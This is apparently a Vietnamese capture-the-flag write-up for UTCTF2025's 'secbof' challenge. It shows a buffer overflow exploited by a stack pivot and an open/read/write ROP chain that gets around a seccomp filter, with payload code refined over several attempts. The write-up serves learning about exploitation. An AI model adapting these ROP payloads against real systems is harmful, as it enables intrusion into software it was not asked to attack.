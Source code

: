 # secbof
## Challenge
[chall](https://github.com/PTIT-BunBo/UTCTF2025/tree/main/pwn/secbof)
## Find vulnerabilities
- Đọc qua code ta thấy lỗ hổng buffer overflow và lớp bảo vệ seccomp trong hàm install_filter

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-13.png)
- Kiểm tra seccomp xem chúng ta được dùng những hàm nào:

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-14.png)

Chúng ta được dùng các hàm open, read, write và exit
- Kiểm tra các lớp bảo vệ:

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-15.png)

NX bật để chống shellcode và PIE tắt
- Như vậy ta có thể exploit theo các bước sau:

B1: Stack pivot vào vùng nhớ ngoài

B2: Dùng ROPgadget để in ra flag
## Exploit
Bước 1: Stack pivot vào vùng nhớ ngoài
```python3
rw_section = 0x4c6a00
payload = b'a'*0x80 + p64(rw_section) + p64(exe.sym['main'] + 97)
p.sendlineafter(b'Input> ', payload)
```
Bước 2: Dùng ROPgadget
- Để có thể open, read, write thì chúng ta phải thỏa mãn điều kiện sau:

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-16.png)

- Lấy lần lượt các ROPgadget pop rdi, pop rsi, pop rdx, pop rax và syscall
- Lần nhập tiếp theo, chúng ta truyền vào `flag.txt\0`, tiếp tục stack pivot và truyền vào các syscall. Chúng ta truyền vào các hàm open, read, write theo lý thuyết:
```python3
rw_section = 0x4c6a00
pop_rdi = 0x000000000040204f
pop_rsi = 0x000000000040a0be
pop_rdx_rbx = 0x000000000048630b
pop_rax = 0x0000000000450507
syscall = 0x0000000000401e04
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall)
# read
payload += p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
- Có 1 vấn đề là khi chúng ta thực hiện syscall read thì thanh ghi rax có giá trị bằng 0 có nghĩa rằng chương trình không mở được file `flag.txt`. Lỗi nằm ở ROP syscall

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-17.png)

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-18.png)

Sau khi thực hiện syscall xong thì chương trình nhảy vào 0x401e00, đó là điều chúng ta không mong muốn.
- Do đó, chúng ta phải tìm ROP syscall có câu lệnh ret và không được nhảy hay gọi bất cứ địa chỉ hoặc thanh ghi nào.

Đây là syscall chúng ta cần tìm kiếm

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-19.png)

- Sửa payload:
```python3
rw_section = 0x4c6a00
pop_rdi = 0x000000000040204f
pop_rsi = 0x000000000040a0be
pop_rdx_rbx = 0x000000000048630b
pop_rax = 0x0000000000450507
# syscall = 0x0000000000401e04
syscall = 0x4816f2
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall)
# read
payload += p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
- Chương trình quay lại hàm open. Chúng ta phải sửa lại rbp trước khi ret ở hàm main và phải thêm 1 địa chỉ phù hợp nữa sau syscall open để nhảy vào pop rax tiếp theo vì sau syscall có lệnh pop rbp
```python3
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section + 0x58)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall) + p64(0x4c6ae0 - 0x8)
```
Trong đó, rw_section + 0x58 trỏ tới 0x4c6ae0 - 0x8 và 0x4c6ae0 - 0x8 trỏ tới syscall open để khi nhảy tới lệnh ret thì chương trình sẽ thực thi syscall tiếp theo 
- Chạy syscall read thất bại.

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-20.png)

- Lý do là bởi chúng ta chưa chuyển dữ liệu từ thanh ghi rax vào rdi, do đó ta phải tìm thêm 1 ROPgadget mới
`ROPgadget --binary chal | grep "xchg edi, eax"`

![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-21.png)
![alt text](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/image/image-22.png)

- Kiểm tra thấy ROPgadget này hợp lệ, ta sửa lại payload:
```python3
# read
payload += p64(xchg_edi_eax) + b'a'*0x38 + p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
Ta phải truyền thêm 0x38 bytes rác vì có lệnh `add rsp, 0x38`
- Đến đây thì chương trình chạy thành công và ta đã lấy được flag
## Payload
[script](https://github.com/PTIT-BunBo/UTCTF2025/blob/main/pwn/secbof/solve.py)
## Flag
```utflag{r0p_with_4_littl3_catch}```